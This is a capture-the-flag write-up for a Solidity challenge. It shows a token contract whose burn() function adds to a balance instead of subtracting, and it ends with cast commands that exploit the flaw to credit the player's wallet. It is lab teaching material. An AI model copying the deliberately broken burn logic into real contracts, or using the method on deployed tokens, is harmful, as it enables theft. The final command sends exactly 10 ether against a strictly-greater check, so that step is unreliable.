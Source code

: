 This Heist require you to get at least 10 Ether from the NewBank that they create in the mist of Inju Bank fall.

```solidity
pragma solidity ^0.8.26;

import "./NewBank.sol";

contract Setup{
    NewBank public NB;
    address public player;

    constructor(uint256 _initialSupply) {
        NB = new NewBank(_initialSupply);
    }

    function setPlayer() public{
        require(msg.sender == tx.origin, "Only Human are allowed to be Player");
        player = msg.sender;
    }

    function isSolved() public view returns(bool){
        return NB.balanceOf(player) > 10 ether;
    }
}
```

In the `Setup Contract`, we can know that the `isSolved()` function require us to first `setPlayer()` and it can only be an EOA, meaning we can't use any Exploit Contract here. Now let's see other files that also given to us, `BetterERC20.sol` and `NewBank.sol`, we are going to see the `BetterERC20.sol` first

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBetterERC20 {
    function transfer(address _to, uint256 _value) external returns (bool);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);

    function approve(address _spender, uint256 _value) external returns (bool);

    function mint(uint256 _value) external;

    function burn(address _who, uint256 _value) external;

    function owner() external view returns (address);

    function balanceOf(address _who) external view returns (uint256);

    function allowance(
        address _owner,
        address _spender
    ) external view returns (uint256);

    function name() external view returns (string memory);

    function symbol() external view returns (string memory);

    function decimals() external view returns (uint8);
}
```

Turns out it's not a contract, but an Interface and to be prcise, it's ERC20 Interface. Knowing that we are working with an ERC Standard, makes the scope of search much easier, what we need to be focused on here is a misimplementation or override of the ERC20 original function. For this, let's see the `NewBank Contract`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {IBetterERC20} from "./BetterERC20.sol";

contract NewBank is IBetterERC20{
    address public override owner;
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    string public override name = "NewBank Token";
    string public override symbol = "NBT";
    uint8 public override decimals = 18;

    constructor(uint256 _initialSupply) {
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(address _from, address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(allowance[_from][msg.sender] >= _value, "Allowance exceeded");
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(address _spender, uint256 _value) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only Owner are allowed to mint!");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }
    
}
```

After viewing all the function here, it seems almost everything is okay except the `burn()` function. `burn()` usually remove a token from the supply and deduct the balance, but this time it's adding it instead of deducting it, so this is the flaw. 

We already found the way to get ourselves some balance, by calling the `burn()` with the value of address pointing to our wallet with the value of 10 Ether, so let's just do that!

```bash
// Getting the NewBank Address
cast call -r $RPC_URL $SETUP_ADDR "NB()"

// Get Ourselves 10 Ether
cast send -r $RPC_URL --private-key $PK $NB_ADDR "burn(address,uint256)" $WALLET_ADDR 10000000000000000000
```

By running the commands above in your terminal, you should've solve the lab!